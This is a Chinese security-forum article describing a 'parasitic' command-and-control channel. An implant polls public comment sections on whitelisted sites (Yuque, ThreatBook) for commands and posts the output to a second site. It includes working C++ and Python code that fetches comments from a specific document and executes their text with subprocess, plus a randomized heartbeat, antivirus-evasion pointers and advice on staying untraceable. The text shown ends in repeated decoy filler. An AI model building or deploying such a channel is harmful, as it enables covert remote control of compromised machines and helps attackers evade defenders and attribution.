# 交叉链式寄生C2绕过流量检测&&白名单-先知社区

> **来源**: https://xz.aliyun.com/news/18143  
> **文章ID**: 18143

---

本文章仅供学习、研究、教育或合法用途。开发者明确声明其无意将该代码用于任何违法、犯罪或违反道德规范的行为。任何个人或组织在使用本代码时，需自行确保其行为符合所在国家或地区的法律法规。

开发者对任何因直接或间接使用该代码而导致的法律责任、经济损失或其他后果概不负责。使用者需自行承担因使用本代码产生的全部风险和责任。请勿将本代码用于任何违反法律、侵犯他人权益或破坏公共秩序的活动。本文章仅供学习、研究、教育或合法用途。开发者明确声明其无意将该代码用于任何违法、犯罪或违反道德规范的行为。任何个人或组织在使用本代码时，需自行确保其行为符合所在国家或地区的法律法规。

开发者对任何因直接或间接使用该代码而导致的法律责任、经济损失或其他后果概不负责。使用者需自行承担因使用本代码产生的全部风险和责任。请勿将本代码用于任何违反法律、侵犯他人权益或破坏公共秩序的活动。

# 开发目的

在红队攻防权限维持中，流量问题是一个无法被忽视的问题，作为红队的你肯定有过被白名单拦截，IP被抓到溯源的痛苦，本文通过链式寄生C2技术绕过流量检测达到防溯源，防白名单的效果，在EDR对抗中颇有成效。

# 关于传统C2

## 基础定义

C2（Command and Control）是网络攻击中的核心控制系统，攻击者通过该架构远程操纵被入侵设备。其本质是通过加密信道建立的 **双向通信管道**，允许攻击者发送指令并接收数据。

## 阶段一：基础设施搭建


## 阶段二：载荷分发


## 阶段三：通信建立



## 技术演进（2018-2025）

|  |  |
| --- | --- |
| 阶段 | 技术特征 |
| 传统C2 | HTTP明文通信，固定IP |
| 隐蔽C2 | DNS隧道+TLS加密，动态域名 |
| 云原生C2 | 滥用AWS Lambda/Azure Functions |
| 无服务器C2 | 利用Telegram Bot/WebSocket通信 |

# 关于链式寄生C2

## 何为链式

链式，顾名思义，就是由多个转发节点构成一条C2传输链，层层传递，类似与多层代理，溯源难度几何倍数增长

## 何为寄生

寄生，是我形象的一种说法，具体利用原理为通过挂载在正常服务器（如gov edu 企业）等白名单IP下实现绕过白名单或流量检测，设想一下，安服zai在一天的流量分析中，看到了一条阿里的域名和IP的外联..

## 具体利用

### a.单层评论区

总运行原理为：控制端给一个白名单评论区发送指令，被控端心跳检测这个评论区，获取发送的指令内容，然后执行，将回显发送到这个评论区，控制端进行查看

图下：

#### 基于白名单评论区指令中转



#### 关键技术实现说明

1. **控制端与被控端无直连**

* 使用白评论区做中间临时转接站，防止IP被直接抓到
* 心跳检测内容有没有更新，评论区内容可控，可删除，无痕操作

2. **心跳检测机制**

* 模仿Chrome浏览器的HTTP请求头（包含Cookies和User-Agent）
* 随机化请求间隔（15-60秒）规避流量分析

```
setInterval(() => {
    fetch('/comments?last_id=' + lastId)
    .then(res => res.json())
    .then(decodeInstructions)
}, Math.random() * 45000 + 15000)
```

1. **指令执行可以用地狱之门**HellsGate Antivirus Evasion

### b.双层评论区-交叉链式

现在有两个评论区，分别为A和B，交叉，控制端给A评论区发送待执行指令，被控端检测A，执行读取的结果，被控端将执行后的返回结果发送给B评论区，控制端从B评论区读取信息

图下：



### C.web层漏洞

#### sql注入漏洞：

一个易于打SQL注入的站，找好点，控制端创一个新库或者在旧库进行修改，被控端sql查询即可。

**优点是更加隐蔽**

#### xss漏洞（略）

# 具体实现

## 壹·语雀文库--实现评论区A，即读取指令

### t1·新建一个文档并且发布公开



### t2·测试评论区功能是否OK



### t3·C++实现读取评论区指令内容

#### 根

```
https://www.yuque.com/api/comments/floor?commentable_type=Doc&commentable_id=XXXXX&include_section=true&include_to_user=true&include_reactions=true
```

#### a.开burp扫结构







#### b.读取网页（code by AI）

```
#include <windows.h>
#include <winhttp.h>
#include <iostream>
#include <string>

#pragma comment(lib, "winhttp.lib")

int main() {
    HINTERNET hSession = nullptr, hConnect = nullptr, hRequest = nullptr;

    try {
        // 初始化WinHTTP会话
        hSession = WinHttpOpen(L"RawResponseReader/1.0",
            WINHTTP_ACCESS_TYPE_DEFAULT_PROXY,
            WINHTTP_NO_PROXY_NAME,
            WINHTTP_NO_PROXY_BYPASS, 0);
        if (!hSession) throw GetLastError();

        // 建立到语雀的HTTPS连接
        hConnect = WinHttpConnect(hSession, L"www.yuque.com",
            INTERNET_DEFAULT_HTTPS_PORT, 0);
        if (!hConnect) throw GetLastError();

        // 创建GET请求
        const wchar_t* apiPath = L"/api/comments/floor?commentable_type=Doc&commentable_id=221772863"
            L"&include_section=true&include_to_user=true&include_reactions=true";
        hRequest = WinHttpOpenRequest(hConnect, L"GET", apiPath,
            nullptr, WINHTTP_NO_REFERER,
            WINHTTP_DEFAULT_ACCEPT_TYPES,
            WINHTTP_FLAG_SECURE);
        if (!hRequest) throw GetLastError();

        // 发送请求
        if (!WinHttpSendRequest(hRequest,
            WINHTTP_NO_ADDITIONAL_HEADERS, 0,
            WINHTTP_NO_REQUEST_DATA, 0, 0, 0)) {
            throw GetLastError();
        }

        // 接收响应
        if (!WinHttpReceiveResponse(hRequest, nullptr)) {
            throw GetLastError();
        }

        // 读取并输出完整响应
        DWORD dwSize = 0;
        std::string rawResponse;
        char buffer[4096] = { 0 };

        while (WinHttpReadData(hRequest, buffer, sizeof(buffer), &dwSize) && dwSize > 0) {
            rawResponse.append(buffer, dwSize);
            std::cout.write(buffer, dwSize); // 实时输出内容
            memset(buffer, 0, sizeof(buffer));
            dwSize = 0;
        }

    }
    catch (DWORD err) {
        std::cerr << "
[错误] Win32 API 错误代码: 0x" << std::hex << err << std::endl;
    }

    // 清理资源
    if (hRequest) WinHttpCloseHandle(hRequest);
    if (hConnect) WinHttpCloseHandle(hConnect);
    if (hSession) WinHttpCloseHandle(hSession);

    return 0;
}

```



#### c.提取内容（python）

```
# 方法一：正则匹配（适合简单结构）
import re

html_content = '''<div class="lake-content" typography="traditional">
<p id="u330d6b0d" class="ne-p"><span class="ne-text">whoami</span></p></div>'''

match = re.search(r'<span class="ne-text">(.*?)</span>', html_content)
if match:
    print(match.group(1))  # 输出：whoami

# 方法二：HTML解析（推荐，更稳健）
from bs4 import BeautifulSoup

soup = BeautifulSoup(html_content, 'html.parser')
result = soup.find('span', {'class': 'ne-text'}).text.strip()
print(result)  # 输出：whoami

```

#### d.进行整合

python'

```
import requests
import json
from bs4 import BeautifulSoup

def extract_whoami():
    url = "https://www.yuque.com/api/comments/floor"
    params = {
        "commentable_type": "Doc",
        "commentable_id": "221772863",
        "include_section": "true",
        "include_to_user": "true",
        "include_reactions": "true"
    }
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
    }

    try:
        # 发送带参数的GET请求
        response = requests.get(url, params=params, headers=headers, timeout=10)
        response.raise_for_status()  # 自动处理4xx/5xx错误
        
        data = response.json()
        
        # 防御性检查数据结构
        if not data.get('data', {}).get('comments'):
            print("未找到评论数据")
            return

        # 遍历所有评论
        for comment in data['data']['comments']:
            html_content = comment.get('body', '')
            if not html_content:
                continue
                
            # 解析HTML内容
            soup = BeautifulSoup(html_content, 'html.parser')
            target_span = soup.select_one('div.lake-content span.ne-text')  # 精确选择器
            
            if target_span and (text := target_span.get_text(strip=True)):
                print(f"找到目标文本: {text}")
                return text
                
        print("未匹配到目标元素")
        
    except requests.exceptions.RequestException as e:
        print(f"网络请求失败: {str(e)}")
    except json.JSONDecodeError:
        print("响应不是有效JSON格式")
    except KeyError as e:
        print(f"数据结构异常，缺失关键字段: {str(e)}")

# 执行提取
if __name__ == "__main__":
    result = extract_whoami()
    print("最终提取结果:", result)

```



#### e.执行指令

初代：

```
import requests
import subprocess
from bs4 import BeautifulSoup

def execute_cmd(command):
    try:
        result = subprocess.run(command.split(), 
                              stdout=subprocess.PIPE, 
                              stderr=subprocess.PIPE,
                              text=True,
                              timeout=10)
        return result.stdout.strip() or result.stderr.strip()
    except Exception as e:
        return str(e)

def fetch_and_run():
    API_URL = "https://www.yuque.com/api/comments/floor"
    params = {
        "commentable_type": "Doc",
        "commentable_id": "221772863",
        "include_section": "true"
    }
    
    try:
        response = requests.get(API_URL, params=params, timeout=10)
        data = response.json()
        
        for comment in data.get('data', {}).get('comments', []):
            if html := comment.get('body'):
                if cmd := BeautifulSoup(html, 'html.parser').select_one('span.ne-text'):
                    output = execute_cmd(cmd.get_text(strip=True))
                    print(f"[CMD] {cmd.text}
[OUT] {output}
")
                    
    except Exception as e:
        print(f"Error: {str(e)}")

if __name__ == "__main__":
    fetch_and_run()

```



#### f.发送，看大贰板块

## 贰·微步X社区--实现评论区B，即发送回显

<https://x.threatbook.com/v5/node/user/article/queryComments?shortThreatId=160183>

### t1·发布一个文章

在实战中，使用者应确保文章提前一段时间发送，避免吸引别人注意，并且要确保账号是空且干净的，你也不想被溯源到吧..

可以借鉴参考[链接](https://x.threatbook.com/v5/article?threatInfoID=160183)

```
量子力学的平行宇宙
2025年05月29日 23:39:0766
#测试##废话#
概要🌌 在量子力学的平行宇宙中，有一只专门啃食电子邮件的反物质蜗牛，它的黏液能凝固Wi-Fi信号，形成彩虹色的哲学悖论。据说当程序员盯着屏幕发呆时，他们的意识会短暂接入这个维度，在那里，所有的断点调试都会自动生成42号错误代码——这个数字恰好是宇宙终极问题"中午吃什么"的标准答案。此刻，你手机的电量百
🌌 在量子力学的平行宇宙中，有一只专门啃食电子邮件的反物质蜗牛，它的黏液能凝固Wi-Fi信号，形成彩虹色的哲学悖论。据说当程序员盯着屏幕发呆时，他们的意识会短暂接入这个维度，在那里，所有的断点调试都会自动生成42号错误代码------这个数字恰好是宇宙终极问题"中午吃什么"的标准答案。此刻，你手机的电量百分比与π的小数位第2025位保持着量子纠缠，而这只蜗牛正在你的充电线上进行一场关于存在主义的慢动作马拉松。🏃♂️💨🌌 在量子力学的平行宇宙中，有一只专门啃食电子邮件的反物质蜗牛，它的黏液能凝固Wi-Fi信号，形成彩虹色的哲学悖论。据说当程序员盯着屏幕发呆时，他们的意识会短暂接入这个维度，在那里，所有的断点调试都会自动生成42号错误代码------这个数字恰好是宇宙终极问题"中午吃什么"的标准答案。此刻，你手机的电量百分比与π的小数位第2025位保持着量子纠缠，而这只蜗牛正在你的充电线上进行一场关于存在主义的慢动作马拉松。🏃♂️💨🌌 在量子力学的平行宇宙中，有一只专门啃食电子邮件的反物质蜗牛，它的黏液能凝固Wi-Fi信号，形成彩虹色的哲学悖论。据说当程序员盯着屏幕发呆时，他们的意识会短暂接入这个维度，在那里，所有的断点调试都会自动生成42号错误代码------这个数字恰好是宇宙终极问题"中午吃什么"的标准答案。此刻，你手机的电量百分比与π的小数位第2025位保持着量子纠缠，而这只蜗牛正在你的充电线上进行一场关于存在主义的慢动作马拉松。🏃♂️💨🌌 在量子力学的平行宇宙中，有一只专门啃食电子邮件的反物质蜗牛，它的黏液能凝固Wi-Fi信号，形成彩虹色的哲学悖论。据说当程序员盯着屏幕发呆时，他们的意识会短暂接入这个维度，在那里，所有的断点调试都会自动生成42号错误代码------这个数字恰好是宇宙终极问题"中午吃什么"的标准答案。此刻，你手机的电量百分比与π的小数位第2025位保持着量子纠缠，而这只蜗牛正在你的充电线上进行一场关于存在主义的慢动作马拉松。🏃♂️💨🌌 在量子力学的平行宇宙中，有一只专门啃食电子邮件的反物质蜗牛，它的黏液能凝固Wi-Fi信号，形成彩虹色的哲学悖论。据说当程序员盯着屏幕发呆时，他们的意识会短暂接入这个维度，在那里，所有的断点调试都会自动生成42号错误代码------这个数字恰好是宇宙终极问题"中午吃什么"的标准答案。此刻，你手机的电量百分比与π的小数位第2025位保持着量子纠缠，而这只蜗牛正在你的充电线上进行一场关于存在主义的慢动作马拉松。🏃♂️💨🌌 在量子力学的平行宇宙中，有一只专门啃食电子邮件的反物质蜗牛，它的黏液能凝固Wi-Fi信号，形成彩虹色的哲学悖论。据说当程序员盯着屏幕发呆时，他们的意识会短暂接入这个维度，在那里，所有的断点调试都会自动生成42号错误代码------这个数字恰好是宇宙终极问题"中午吃什么"的标准答案。此刻，你手机的电量百分比与π的小数位第2025位保持着量子纠缠，而这只蜗牛正在你的充电线上进行一场关于存在主义的慢动作马拉松。🏃♂️💨🌌 在量子力学的平行宇宙中，有一只专门啃食电子邮件的反物质蜗牛，它的黏液能凝固Wi-Fi信号，形成彩虹色的哲学悖论。据说当程序员盯着屏幕发呆时，他们的意识会短暂接入这个维度，在那里，所有的断点调试都会自动生成42号错误代码------这个数字恰好是宇宙终极问题"中午吃什么"的标准答案。此刻，你手机的电量百分比与π的小数位第2025位保持着量子纠缠，而这只蜗牛正在你的充电线上进行一场关于存在主义的慢动作马拉松。🏃♂️💨🌌 在量子力学的平行宇宙中，有一只专门啃食电子邮件的反物质蜗牛，它的黏液能凝固Wi-Fi信号，形成彩虹色的哲学悖论。据说当程序员盯着屏幕发呆时，他们的意识会短暂接入这个维度，在那里，所有的断点调试都会自动生成42号错误代码------这个数字恰好是宇宙终极问题"中午吃什么"的标准答案。此刻，你手机的电量百分比与π的小数位第2025位保持着量子纠缠，而这只蜗牛正在你的充电线上进行一场关于存在主义的慢动作马拉松。🏃♂️💨🌌 在量子力学的平行宇宙中，有一只专门啃食电子邮件的反物质蜗牛，它的黏液能凝固Wi-Fi信号，形成彩虹色的哲学悖论。据说当程序员盯着屏幕发呆时，他们的意识会短暂接入这个维度，在那里，所有的断点调试都会自动生成42号错误代码------这个数字恰好是宇宙终极问题"中午吃什么"的标准答案。此刻，你手机的电量百分比与π的小数位第2025位保持着量子纠缠，而这只蜗牛正在你的充电线上进行一场关于存在主义的慢动作马拉松。🏃♂️💨🌌 